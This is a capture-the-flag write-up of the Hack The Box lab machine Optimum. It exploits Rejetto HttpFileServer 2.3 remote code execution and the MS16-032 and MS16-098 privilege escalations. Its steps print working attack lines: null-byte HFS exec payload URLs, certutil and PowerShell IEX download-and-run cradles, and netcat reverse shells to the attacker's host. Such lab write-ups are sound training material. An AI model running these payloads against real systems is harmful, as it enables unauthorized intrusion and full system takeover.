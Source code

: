 # Optimum

![image](https://user-images.githubusercontent.com/10210108/79375859-4e294100-7f27-11ea-99b2-7edafa05220c.png)

## Overview

Optimum is a Windows Server box running Rejetto HttpFileServer 2.3 that was vulnerable to unauthenticated remote code execution. I was able to leverage the RCE to get an initial foothold. I used sherlock to look for kernel exploits and found that it was vulnerable to MS16-032 (Secondary Logon Service) which was used to create a reverse shell as the 'nt authority/system' account. 

>Secondary Logon provides a means for entering alternate credentials that is often used by administrators to authenticate and perform administrative tasks when logged on with a non-administrator account. The service fails to sanitize handles when creating a new process which can be abused by a standard user to perform privilege escalation as a system service thread pool handle can be duplicated.

## Enumeration

**Software**
* Windows Server 2012 R2
* Rejetto HttpFileServer 2.3

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.8 -oN /mnt/data/boxes/optimum/_full_tcp_nmap.txt
```

* 80/tcp - http

## Steps (user)

The only port open from the nmap scan was port 80 so I browsed to http://10.10.10.8 and was presented with an "HttpFileServer" page.

![image](https://user-images.githubusercontent.com/10210108/83679465-70e1e880-a5ad-11ea-924e-b8afc9c07845.png)

I looked around the site and played with some functionality but I didn't gain any other useful information. There was a link to log in but I didn't have credentials at this point so I moved on.  Under server information I noted the application name and version - HttpFileServer 2.3 - which is a hyperlink that goes to https://www.rejetto.com/hfs/

![image](https://user-images.githubusercontent.com/10210108/83679751-e77ee600-a5ad-11ea-94d6-1de041baf6ee.png)

Doing a search for in searchsploit for "rejetto" turned up a number of results.

![image](https://user-images.githubusercontent.com/10210108/83679912-2dd44500-a5ae-11ea-911c-770e9f88e77f.png)

According to 34668, there is a flaw in how ParsetLib.pas handles regex in HttpFileServer which allows for remote code execution. This allowed me to use HFS script commands by using %00 to bypass the filtering.

![image](https://user-images.githubusercontent.com/10210108/83680747-5b6dbe00-a5af-11ea-8e4c-efb1adbf07b1.png)

As a test I sent a command that would ping my machine. First I set up tcpdump to listen for icmp requests on tun0

```
sudo tcpdump -i tun0 icmp
```

Then I set up burp to capture the request and modified the request to ping my box.

```
http://10.10.10.8/?search=%00{.exec|/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+ping+-n+1+10.10.14.26.} }
```

![image](https://user-images.githubusercontent.com/10210108/83693167-86620d00-a5c3-11ea-9d36-adb460d6d2fc.png)

I received an icmp echo request which confirmed that I was able execute commands. The next step was to transfer netcat to the box and create a reverse shell.

> Note: Initially I transferred the 32-bit version of netcat but this caused a problem with the exploit. The problem was that I was trying to execute a 64-bit powershell script from a 32-bit version of cmd.exe. The solution was to transfer the 64-bit version of netcat to get a 64-bit shell.

I copied nc64.exe to my working directory and set up a python http server in preparation to transfer files.

```
cp ~/tools/windows-binaries/nc64.exe .
sudo python3 -m http.server 80
```

Using repeater in Burp I sent the following command which uses certutil to download nc64.exe to the target.

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+certutil+-urlcache+-split+-f+http%3a//10.10.14.26/nc64.exe.}
```

![image](https://user-images.githubusercontent.com/10210108/83818426-5c791b00-a695-11ea-9acf-137f7c55367d.png)


I set up a netcat listener (rlwrap nc -lvnp 4200) and the executed the command to create the reverse shell - 'nc64.exe -e cmd 10.10.14.26 4200'

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+nc64.exe+-e+cmd+10.10.14.26+4200.}
```

![image](https://user-images.githubusercontent.com/10210108/83818576-b7ab0d80-a695-11ea-959a-339cff9f661a.png)

## Steps (root/system)

After doing some enumeration and not finding any obvious privilege escalation paths, I proceeded with sherlock to look for kernel exploits. 

I copied sherlock to working directory and started a python http server

```
cp ~/tools/Sherlock/Sherlock.ps1 .
sudo python3 -m http.server 80
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing the 'Find-AllVuns' function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.26/Sherlock.ps1');Find-AllVulns"
```

There were a few options available but I decided to go with the well known MS16-032. I used the powershell version from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite)

![image](https://user-images.githubusercontent.com/10210108/83696390-5c601900-a5ca-11ea-944d-a2827dcb5152.png)


I already had the git repo cloned to my local machine so I copied the script to my working directory.

```
cp ~/tools/PowerShell-Suite/Invoke-MS16-032.ps1 .
```

This exploit creates a pop-up cmd prompt as 'nt authority\system' by default but beacuse I'm not logged in via the gui I modified it to use netcat to create a reverse shell instead.

![image](https://user-images.githubusercontent.com/10210108/83700958-435d6500-a5d6-11ea-9e35-f2c7f7060c06.png)

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
                $CallResult = [Advapi32]::CreateProcessWithLogonW(
                        "user", "domain", "pass",
                        0x00000002, 'c:\windows\system32\cmd.exe', '/c C:\users\kostas\desktop\nc64.exe -e cmd 10.10.14.26 4201',
                        0x00000004, $null, $GetCurrentPath,
                        [ref]$StartupInfo, [ref]$ProcessInfo)

```

On the target box I used powershell IEX again to download the powershell script and execute the 'Invoke-MS16-032' function.

```
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.26/Invoke-MS16-032.ps1');Invoke-MS16-032
```

The exploit failed at first with "No valid thread handle was captured, exiting." The reason for this is that I was executing a 64-bit exploit in a 32-bit shell. A full explanation can be found here: https://spencerdodd.github.io/2017/07/20/WOW64/

![image](https://user-images.githubusercontent.com/10210108/83811099-29c82600-a687-11ea-9832-18baf2f89c67.png)

Once the script was executed in a 64-bit shell I received a callback on my netcat listener and shell as 'nt authority\system' user.

![image](https://user-images.githubusercontent.com/10210108/83700913-29238700-a5d6-11ea-8a29-f08aca31f455.png)

## Steps (root/system - alternate)

When I did this box originally I used MS16-098 for privilege escalation which was listed by windows-exploit-suggester. For this write-up I decided to use Sherlock instead but for some reason it didn't list MS16-098. I used this as an opportunity to try a different exploit. 

> Additional information about MS16-098 can be found here https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/

First I copied the output of the 'systeminfo' command on the target box and saved it to a file. I ran windows-exploit-suggester to see which vulnerability were applicable.

```
/windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](https://user-images.githubusercontent.com/10210108/83819582-3dc85380-a698-11ea-90d6-291666393da7.png)

I downloaded bfill.exe from the sensepost [github repo](https://github.com/sensepost/ms16-098) and transferred it to the target machine using the python http server and certutil as described earlier. I received root shell right on the box.

![image](https://user-images.githubusercontent.com/10210108/83819726-9f88bd80-a698-11ea-8861-94ddf2ccebe7.png)
